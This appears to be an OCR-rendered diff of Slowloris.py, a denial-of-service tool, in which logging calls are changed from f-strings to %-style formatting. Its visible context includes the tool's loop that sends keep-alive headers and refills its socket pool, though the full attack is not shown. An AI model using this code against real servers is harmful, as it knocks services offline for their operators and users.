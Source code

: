 # Slowloris.py

@@ -178,7 +178,7 @@ def init_socket(ip: str):

def slowloris_iteration():
    logging.info("Sending keep-alive headers...")
    logging.info(f"Socket count: {len(list_of_sockets)}")
    logging.info("Socket count: %s", len(list_of_sockets))

    # Try to send a header line to each socket
    for s in list(list_of_sockets):
@@ -194,15 +194,15 @@ def slowloris_iteration():
    if diff <= 0:
        return

    logging.info(f"Creating {diff} new sockets...")
    logging.info("Creating %s new sockets...", diff)
    for _ in range(diff):
        try:
            s = init_socket(args.host)
            if not s:
                continue
            list_of_sockets.append(s)
        except socket.error as e:
            logging.debug(f"Failed to create new socket: {e}")
            logging.debug("Failed to create new socket: %s", e)
            break


@@ -228,7 +228,7 @@ def main():
            logging.info("Stopping Slowloris")
            break
        except Exception as e:
            logging.debug(f"Error in Slowloris iteration: {e}")
            logging.debug("Error in Slowloris iteration: %s", e)
        logging.debug("Sleeping for %d seconds", args.sleeptime)
        time.sleep(args.sleeptime)
